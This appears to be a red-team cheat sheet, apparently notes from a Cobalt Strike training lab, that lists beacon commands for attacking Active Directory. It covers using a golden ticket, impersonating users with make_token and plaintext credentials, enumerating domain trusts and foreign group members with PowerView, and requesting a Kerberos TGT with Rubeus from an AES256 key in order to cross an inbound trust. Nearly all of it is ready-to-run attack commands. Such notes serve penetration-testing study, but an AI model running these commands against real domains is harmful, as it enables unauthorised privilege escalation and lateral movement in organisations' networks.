 ###### <font style="color:#00b3ff">Use the Golden Ticket</font> 
```
beacon> make_token CYBER\Administrator FakePass
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cyberbotic.kirbi
beacon> ls \\dc-1\c$
beacon> rev2self
```

#### One-Way (Inbound)

###### <font style="color:#00b3ff">Get domain trust and enumerate foreign domain</font> 
```
beacon> powershell Get-DomainTrust
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

	(SharpHound -c DcOnly -d subsidiary.external will also work.)

- Get-DomainForeignGroupMember will enumerate any groups that contain users outside of its domain and return its members:

	beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external
```

###### <font style="color:#00b3ff">Resolve SID</font> 
```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
```

###### <font style="color:#00b3ff">Get-NetLocalGroupMember can enumerate the local group membership of a machine</font> 
```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external
```

###### <font style="color:#00b3ff">To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, make_token is the most straight forward method</font> 
```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

beacon> make_token DEV\jadams TrustNo1

beacon> ls \\ad.subsidiary.external\c$

- If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.
```

###### <font style="color:#00b3ff">First, we need a TGT for the principal in question. This TGT will come from the current domain</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap
```
